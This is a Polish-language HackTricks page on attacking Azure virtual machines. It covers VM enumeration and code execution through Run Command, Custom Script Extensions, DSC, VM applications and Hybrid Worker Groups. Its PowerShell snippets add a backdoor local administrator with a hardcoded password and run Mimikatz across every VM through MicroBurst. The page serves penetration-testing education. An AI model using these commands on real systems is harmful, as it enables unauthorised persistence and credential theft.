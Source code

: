 # Az - Maszyny Wirtualne i Sieć

{% hint style="success" %}
Ucz się i ćwicz Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Ucz się i ćwicz Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Wsparcie dla HackTricks</summary>

* Sprawdź [**plany subskrypcyjne**](https://github.com/sponsors/carlospolop)!
* **Dołącz do** 💬 [**grupy Discord**](https://discord.gg/hRep4RUj7f) lub [**grupy telegramowej**](https://t.me/peass) lub **śledź** nas na **Twitterze** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Podziel się sztuczkami hackingowymi, przesyłając PR-y do** [**HackTricks**](https://github.com/carlospolop/hacktricks) i [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repozytoriów na githubie.

</details>
{% endhint %}

## Podstawowe informacje

[Z dokumentacji:](https://learn.microsoft.com/en-us/azure/virtual-machines/overview) Maszyny wirtualne Azure są jednym z kilku typów [zasobów obliczeniowych na żądanie i skalowalnych](https://learn.microsoft.com/en-us/azure/architecture/guide/technology-choices/compute-decision-tree), które oferuje Azure. Zazwyczaj wybierasz maszynę wirtualną, gdy potrzebujesz większej kontroli nad środowiskiem obliczeniowym niż oferują inne opcje. Ten artykuł dostarcza informacji na temat tego, co powinieneś wziąć pod uwagę przed utworzeniem maszyny wirtualnej, jak ją utworzyć i jak nią zarządzać.

## Informacje o sieci Azure

Sieci Azure zawierają **różne podmioty i sposoby ich konfiguracji.** Możesz znaleźć krótkie **opisy,** **przykłady** i **komendy enumeracji** różnych podmiotów sieciowych Azure w:

{% content-ref url="az-azure-network.md" %}
[az-azure-network.md](az-azure-network.md)
{% endcontent-ref %}

## Azure Bastion

**Azure Bastion** oferuje bezpieczne, w pełni zarządzane rozwiązanie dostępu RDP (Remote Desktop Protocol) i SSH (Secure Shell) przez SSL za pośrednictwem portalu Azure. Jest zintegrowany w ramach sieci wirtualnej Azure, co umożliwia łączność RDP i SSH z VM-ami przy użyciu prywatnych adresów IP, unikając potrzeby używania publicznych adresów IP. To czyni go bezpieczniejszą, bardziej wygodną alternatywą dla tradycyjnych metod związanych z przypisywaniem publicznych adresów IP i konfiguracjami reguł NSG dla dostępu do VM. Programiści i personel IT mogą bezpiecznie uzyskiwać dostęp do VM-ów z portalu Azure za pomocą swoich przeglądarek internetowych, co upraszcza proces dla środowisk deweloperskich i testowych.

Aby wyświetlić wszystkie hosty Azure Bastion w swojej subskrypcji, możesz użyć następującej komendy:

{% code overflow="wrap" %}
```bash
az network bastion list --query "[].{name:name, resourceGroup:resourceGrou, location:location}" -o table
```
{% endcode %}

## Enumeracja VM
```powershell
# Get readable VMs
Get-AzVM | fl
# Lis running VMs
Get-AzureRmVM -status | where {$_.PowerState -EQ "VM running"} | select ResourceGroupName,Name
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | fl *
Get-AzVM -Name <name> -ResourceGroupName <res_group_name> | select -ExpandProperty NetworkProfile

# Get iface and IP address
Get-AzNetworkInterface -Name <interface_name>
Get-AzPublicIpAddress -Name <iface_public_ip_id>

#Get installed extensions
Get-AzVMExtension -ResourceGroupName <res_group_name> -VMName <name>

Get-AzVM | select -ExpandProperty NetworkProfile # Get name of network connector of VM
Get-AzNetworkInterface -Name <name> # Get info of network connector (like IP)
```
## **Uruchom polecenia w VM**

### **Logowanie AAD w VM**

Możliwe jest umożliwienie dostępu użytkownikom uwierzytelnionym za pomocą AzureAD. Na przykład próbując uzyskać dostęp do **linux VM**: `ssh username@azure-corp.com@1.1.1.1` (ważne jest, aby **użyć adresu e-mail** z azurecorp używanego podczas próby logowania) możesz otrzymać błąd taki jak: 

{% code overflow="wrap" %}
```
(username@azure-corp.com@1.1.1.1) This preview capability is not for production use. When you sign in, verify the name of the app on the sign-in screen is "Azure Linux VM Sign-in" and the IP address of the target VM is correct.

To sign in, use a web browser to open the page https://microsoft.com/devicelogin and enter the code DT4PNSTGR to authenticate. Press ENTER when ready.
```
{% endcode %}

Po prostu **postępuj zgodnie z tymi instrukcjami**, przechodząc do [https://microsoft.com/devicelogin](https://microsoft.com/devicelogin) i podając kod, użyj adresu e-mail i hasła jako poświadczeń, a będziesz mógł połączyć się za pomocą SSH (jeśli ten użytkownik ma wystarczające uprawnienia: rola `Virtual Machine Administrator Login` lub `Virtual Machine User Login`).

### **Run Command**
```powershell
# The permission allowing this is Microsoft.Compute/virtualMachines/runCommand/action
Invoke-AzVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose
## Another way
Invoke-AzureRmVMRunCommand -ScriptPath .\adduser.ps1 -CommandId 'RunPowerShellScript' -VMName 'juastavm' -ResourceGroupName 'Research' –Verbose

# Content of the script
$passwd = ConvertTo-SecureString "Welcome2022!" -AsPlainText -Force
New-LocalUser -Name new_user -Password $passwd
Add-LocalGroupMember -Group Administrators -Member new_user
```

```powershell
# Try to run in every machine
Import-module MicroBurst.psm1
Invoke-AzureRmVMBulkCMD -Script Mimikatz.ps1 -Verbose -output Output.txt
```
### **Uruchomienie rozszerzenia niestandardowego skryptu**

Rozszerzenia maszyn wirtualnych (VM) w Azure to **małe aplikacje**, które zapewniają konfigurację po wdrożeniu i automatyzację **zadań** na **maszynach wirtualnych Azure**. Na przykład, jeśli maszyna wirtualna wymaga instalacji oprogramowania, ochrony antywirusowej lub możliwości uruchomienia skryptu wewnątrz niej, możesz użyć rozszerzenia VM.

Dlatego, jeśli masz dostęp do zapisu, możesz wykonać dowolny kod:
```powershell
# Microsoft.Compute/virtualMachines/extensions/write
Set-AzVMExtension -ResourceGroupName "Research" -ExtensionName "ExecCmd" -VMName "infradminsrv" -Location "Germany West Central" -Publisher Microsoft.Compute -ExtensionType CustomScriptExtension -TypeHandlerVersion 1.8 -SettingString '{"commandToExecute":"powershell net users new_user Welcome2022. /add /Y; net localgroup administrators new_user /add"}'
```
### DesiredConfigurationState (DSC)

DesiredConfigurationState (DSC) to narzędzie PowerShell podobne do Ansible, używane do konfigurowania hosta za pomocą kodu. DSC integruje się z Azure, umożliwiając przesyłanie specyficznych plików konfiguracyjnych. Pliki te muszą przestrzegać ścisłej składni. Co ważne, rozszerzenie DSC w Azure może wykonywać polecenia z plików, które spełniają określone kryteria formatowania, nawet jeśli składnia nie jest poprawna według standardów DSC, jak pokazano na dostarczonym rysunku.

Wykonanie tych poleceń jest ułatwione przez funkcję [**`Publish-AzVMDscConfiguration`**](https://docs.microsoft.com/en-us/powershell/module/az.compute/publish-azvmdscconfiguration?view=azps-7.5.0) w Az PowerShell. Wymagania obejmują plik **.PS1** z zdefiniowaną funkcją, a plik musi być spakowany do pliku **.zip**. Mimo że składnia może nie być dokładna dla DSC, kod nadal zostanie wykonany. Jednak rozszerzenie oznaczy status wykonania jako "niepowodzenie", a żaden wynik z polecenia nie będzie widoczny z powodu nadpisania statusu komunikatem o błędzie.

### VM Application Definitions

Definicje aplikacji VM umożliwiają powtarzalne wdrażanie wersjonowanych aplikacji na maszynie wirtualnej Azure. Ten zasób wspiera wdrażanie i aktualizację aplikacji na maszynach wirtualnych. Aby to skonfigurować, wymagane są różne kroki, obejmujące polecenia takie jak **`New-AzGalleryApplication`** i **`New-AzGalleryApplicationVersion`** w Az PowerShell.

Wykonanie aplikacji lub poleceń tą metodą wiąże się z **"VMAppExtension"**, która jest automatycznie instalowana, gdy aplikacja jest stosowana do maszyny wirtualnej. Rozszerzenie pobiera plik z określonego URI i nazywa go dokładnie tak samo jak aplikacja, bez rozszerzenia. Aby poprawnie wykonać plik, pole "ManageActions" w wywołaniu REST API musi być skonfigurowane do zmiany nazwy pliku na odpowiednie rozszerzenie. Ustawienie tej metody, po zakończeniu, będzie przypominać strukturę pokazaną na dostarczonym rysunku.

Jednak ta metoda wykonania jest stosunkowo wolna, zajmując około 3-4 minut na wykonanie aplikacji lub polecenia. Pliki związane z tym procesem są przechowywane w określonych katalogach (`C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Downloads\` dla kopii aplikacji i `C:\Packages\Plugins\Microsoft.CPlat.Core.VMApplicationManagerWindows\1.0.4\Status\` dla statusu wykonania).

Obie techniki oferują unikalne sposoby wykonywania poleceń i wdrażania aplikacji w środowiskach Azure, każda z własnym zestawem wymagań, kroków i rozważań.

### Hybrid Worker Groups (HWGs) in Azure

[**Hybrid Worker Groups (HWGs)**](https://docs.microsoft.com/en-us/azure/automation/automation-hybrid-runbook-worker) to funkcja w Azure, która pozwala na wykonywanie Runbooków, skonfigurowanych w koncie automatyzacji, na maszynie wirtualnej Azure (VM), która jest częścią wyznaczonej HWG. To wykonanie jest ułatwione przez rozszerzenie zainstalowane na VM, które wdraża kod Runbooka na VM. Istotnym aspektem tego procesu jest to, że rzeczywiste poświadczenia nie mają znaczenia w wykonaniu, ponieważ kod działa z podwyższonymi uprawnieniami, konkretnie jako **SYSTEM** lub root, jak pokazano na dostarczonym rysunku.

Kluczowym szczegółem dla tych, którzy korzystają z maszyn wirtualnych Windows 10, jest konieczność określenia wersji PowerShell dla Runbooka. Powinna być ustawiona na uruchamianie jako PowerShell Wersja 5.1 zamiast 7.1. Wymóg ten wynika z faktu, że PowerShell 7.1 nie jest domyślnie zainstalowany na tych maszynach wirtualnych, co prowadzi do niepowodzenia w wykonaniu skryptu, jeśli określona jest wersja 7.1.

Ta funkcja Azure oferuje solidną metodę automatyzacji i zarządzania zadaniami w środowiskach hybrydowych, umożliwiając centralne zarządzanie i wykonywanie zadań na maszynach wirtualnych Azure.

## References

* [https://learn.microsoft.com/en-us/azure/virtual-machines/overview](https://learn.microsoft.com/en-us/azure/virtual-machines/overview)
* [https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/](https://hausec.com/2022/05/04/azure-virtual-machine-execution-techniques/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
